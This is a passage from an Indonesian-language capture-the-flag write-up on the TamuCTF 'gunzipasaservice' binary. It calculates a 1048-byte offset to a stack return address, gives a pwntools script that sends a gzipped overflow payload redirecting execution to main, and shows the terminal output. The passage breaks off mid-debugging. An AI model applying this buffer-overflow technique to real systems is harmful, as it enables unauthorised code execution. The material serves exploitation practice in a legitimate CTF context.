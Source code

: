 ```
  close(fd);
  memset(&ptr, 0, 0x200u);
  gets_fd(&ptr, v3);
  return fwrite(&ptr, 1u, 0x200u, stdout);
}
```
Dari yang terlihat pada **pseudocode** tersebut, kami menyimpulkan bahwa inputan kita disimpan pada variabel **ptr** yang terletak di **EBP-0x414**.<br>
Karena **return address** terletak pada **EBP+0x4**, artinya untuk mengoverwrite return address kita memerlukan padding sebanyak **0x414 + 0x4** == **0x418**(**1048** dalam decimal).<br>
Untuk memastikan bahwa padding tersebut benar, kami mencoba untuk meng-overwrite **return address** menjadi **main** sehingga program akan kembali ke main saat return, jika program memberikan output berupa **EOF** artinya padding yang kami perhitungkan salah. Namun seharusnya bisa kami cek di **gdb** untuk melihat kemana return address tersebut di-alihkan, sayang sekali kami tidak bisa memasang **break-point** di **gdb** karena program langsung meng-exec **/bin/sh** untuk melakukan unzipping(Jika /bin/sh di exec di gdb maka akan mengabaikan breakpoint dan langsung **EOF**) sehingga kami harus melakukan debugging secara **blind** tanpa gdb.<br>
Berikut merupakan script exploit yang kami buat untuk merubah return address menjadi main.<br>
```
def exploit3():
    p = process("./gunzipasaservice")
    #p = remote("challenges.tamuctf.com", 4709)
    binary = ELF("./gunzipasaservice")
    bss = 0x0804c044 + 0x100
    add_esp = 0x08049475    # add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret

    payload = ''
    payload += 'A' * 1048
    payload += p32(binary.symbols['main'])
    
    open("rop", "w+").write(payload)
    os.system("gzip rop")

    rop = open("rop.gz", "rb").read()
    p.send(rop)

    p.interactive()

if __name__ == "__main__":
   exploit3()
```
Dan berikut merupakan outputya.<br>
```
chao at Yu in [~/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE]  on git:master ✗  bcdc4b3 "update readme"
13:52:50 › python payChristo.py
[+] Starting local process './gunzipasaservice': pid 11290
[*] '/home/chao/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE/gunzipasaservice'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
$ 
```
Betapa bahagianya kami setelah melihat bahwa tidak terjadi **EOF** pada program, dan sepertinya program tersebut meminta sebuah input. Kami-pun menginputkan karakter berupa **AAAA**, saat ini seharusnya terjadi gzip error format dan **EOF**. Dan berikut merupakan outputnya. <br>
```
chao at Yu in [~/Documents/KSL/WriteUp-CTF/TamuCTF/PWN/GUNZIP_AS_SERVICE]  on git:master ✗  bcdc4b3 "update readme"
14:03:35 › python payChristo.py
[+] Starting local process './gunzipasaservice': pid 11519
```